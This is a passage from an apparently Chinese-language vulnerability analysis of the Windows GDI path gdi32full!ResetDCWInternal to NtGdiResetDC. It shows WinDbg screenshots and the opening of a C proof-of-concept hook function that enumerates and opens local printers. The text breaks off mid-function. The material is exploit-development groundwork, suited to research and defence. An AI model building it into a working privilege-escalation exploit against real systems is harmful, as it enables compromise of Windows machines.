 ![](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20211214141319.png)

继续跟进 gdi32full!ResetDCWInternal

![](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20211214141320.png)

如果pldcGet() 返回结果 v6 不为0，且 *(v6+8) ≥0 ，则会调用 NtGdiResetDC

用以下代码结合 windbg 调试 gdi32full!ResetDCWInternal

```C
#include <Windows.h>

LPSTR printerName;
HDC hdc;

BOOL PrinterUserModeCallbackHOOK()
{
  DWORD pcbNeeded, pcbReturned = 0;
  PRINTER_INFO_4A* pPrinterInfo, * pPrinterEnum = NULL;
  BOOL result = FALSE;
  HANDLE hPrinter = NULL;
  DRIVER_INFO_2A* PrinterDriverInfo;
  HMODULE hModule = NULL;

  // 获取 PRINTER_INFO_4A 结构数组 size
  printf("[*] Finding Printer...\n");
  EnumPrintersA(PRINTER_ENUM_LOCAL, NULL, 4, NULL, 0, &pcbNeeded, &pcbReturned);
  if (pcbNeeded <= 0)
  {
    printf("[-]Failed to get PRINTER_INFO_4A size\n");
    return FALSE;
  }

  pPrinterEnum = (PRINTER_INFO_4A *)malloc(pcbNeeded);
  if (pPrinterEnum == NULL)
  {
    printf("[-]Failed to allocate memory\n");
    return FALSE;
  }

  // 保存所有的 PRINTFER_INFO_4A 结构体到内存中
  result = EnumPrintersA(PRINTER_ENUM_LOCAL, NULL, 4, (LPBYTE)pPrinterEnum, pcbNeeded, &pcbNeeded, &pcbReturned);
  if (!result || pcbReturned <=0)
  {
    printf("[-] Failed to store PRINTF_INFO_4A\n");
    return FALSE;
  }

  // 找到可用的打印机驱动
  for (DWORD i = 0; i <= pcbReturned; i++)
  {
    pPrinterInfo = &pPrinterEnum[i];
    printf("[*] Using printer: %s\n", pPrinterInfo->pPrinterName);

    // 打开找到的驱动
    result = OpenPrinterA(pPrinterInfo->pPrinterName, &hPrinter, NULL);
    if (!result)
    {
      printf("[-] Failed to open printer: %s\n", pPrinterInfo->pPrinterName);
      continue;
    }
    printf("[+]Open %s successfully\n",pPrinterInfo->pPrinterName);
    printerName = pPrinterInfo->pPrinterName;
```